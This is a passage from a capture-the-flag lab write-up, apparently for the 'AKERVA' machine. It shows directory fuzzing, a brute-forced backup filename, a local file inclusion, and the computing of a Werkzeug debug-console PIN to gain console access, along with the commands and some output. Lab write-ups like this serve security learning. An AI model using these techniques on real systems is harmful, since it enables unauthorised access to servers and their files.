Moving along I see that main website asks for Login portal toghether with Basic authentication where at first glance I was tempted to bruteforce the login form:




But I decided to run some fuzzing on Web directories level and found out that we have access to a hidden folder on Werkzeug console:

```Bash
┌──(aleksandar㉿DESKTOP-1KSM320)-[~/Downloads]
└─$ sudo su
[sudo] password for aleksandar: 
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u http://10.13.37.11:5000/

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_10.13.37.11_5000/__23-07-26_10-48-03.txt

Target: http://10.13.37.11:5000/

[10:48:03] Starting: 
[10:48:29] 200 -    2KB - /console                                          
                                                                             
Task Completed
```



And as guessed we have to bruteforce somehow that PINCODE and get access to the Console.

But before we can try to read files from SNMP scan:



Ok the space_dev.py is not working but what about that bash script?



No on GET, but what about we try to tamper the HTTP method?



And now we got to read the backup script and get the third flag as well. We can see that there should be a backup folder that saves backups in zip format under /backup/backup_xxxxx.zip

But can we read the other python files?



And again no with default HTTP GET but what about doing same with POST instead?



No it's not working out.

But I guess we have to fuzz that /backup folder and get the content from it, we know that script is executed every 17 minutes, the name is backup_XXXX.zip, is zipped, and the XXXX part should be timestamp YYYYMMDDHHMMSS now the fuzzing part will be the last 4 of MMSS since 17 min can happen several times during one hour.

We have to check the hostnames system time and to do that we can see it from SNMP:



Which means it whould be backup_2023072611XXXX.zip

we have to create a custom wordlist by 4 numbers and fuzz it thru it!

```BAsh
//This will generate a worlist by 4 numbers aka from 0000 to 9999
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# crunch 4 4 -t %%%% -o akerva.txt
Crunch will now generate the following amount of data: 50000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

crunch: 100% completed generating output
```

And now technically we could use FFUF to fuzz thru:

```BAsh
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w akerva.txt -u http://10.13.37.11/backups/backup_2023072611FUZZ.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.13.37.11/backups/backup_2023072611FUZZ.zip
 :: Wordlist         : FUZZ: /home/aleksandar/Downloads/akerva.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 22071775, Words: 0, Lines: 0, Duration: 0ms]
    * FUZZ: 1825

:: Progress: [10000/10000] :: Job [1/1] :: 1273 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

indeed we have a backup, so let´s try to curl it.



Nice! let´s see what´s inside, it should be the backup of prod website btw!



Indeed we have the whole backup of www folder, but let's drill down and check if we can find other interesting stuff!

We can see info about WP_CONFIG:



And now we can read that python file from before:



Good another flag!

Now on one side I'm running a WPScan on the wordpress with that password used in the DB backend and checking if any other user have any Password reuse, but I guess our next way is the login to Werkzeug PINcode crack. The soultions is in the space_dev.py:

```BAsh
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ARKEVA/var/www/html/dev]
└─# cat space_dev.py                                                                                                                                                                                              
#!/usr/bin/python

from flask import Flask, request
from flask_httpauth import HTTPBasicAuth
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
auth = HTTPBasicAuth()

users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }

@auth.verify_password
def verify_password(username, password):
    if username in users:
        return check_password_hash(users.get(username), password)
    return False
```

As we can see the user is "aas" and the password is the password_hash of the flag. So let's try to use that user:password and login into main webpage!



Good the password works, but now we know there are 2 available routes (Download and File):



By default Hello World get's open, then there is a /download and a /file that via a HTTP GET can request a LFI. And as defined in the code /download is pointing to a inexistend file that's why it is failing:



But what about the /file? Can we get a LFI working?



Yes! By using the filename as GET parameter we can read local files and invoke a LFI. As we can see there is a "AAS" local username and ROOT, we need to find some credentials first!

Now I guess we have to exploit that Werkzeug PINCODE: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit

Let's try to use the code from that script!

- First we have to find the private_bits aka hex to dec of the MAC ADDRESS



```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ARKEVA]
└─# python3
Python 3.11.4 (main, Jun  7 2023, 10:13:09) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056b9a47b)
345052390523
>>>
```

- The we find the machine ID:



- The Username we know is AAS
- Now we should be able to run the script

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ARKEVA]
└─# python3 werkzeug_pin.py 
119-080-839
```

Now we have a possible PINCODE, let´s see if it works? No! I misunderstood the payload and gave the wrong path to flask/app.py, indeed when we run the /download route that failed it gave us the path to the flask.py application:



That is the path to use! So adjusting the script parameters:



Now when we run it we get another PINCODE:



And sending it this time it works:



Ok, after several tries seems like the problem was the script I used sha1 hash instead of MD5:



And we could see that from NMAP that versions wasn´t 2.x:


And as seen here: https://github.com/grav3m1nd-byte/werkzeug-pin

Sometimes the app.pyc have to be used:



And lastly we got it working:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ARKEVA]
└─# python3 werkzeug_pin.py 
202-735-785
```

And now we are in!



* * *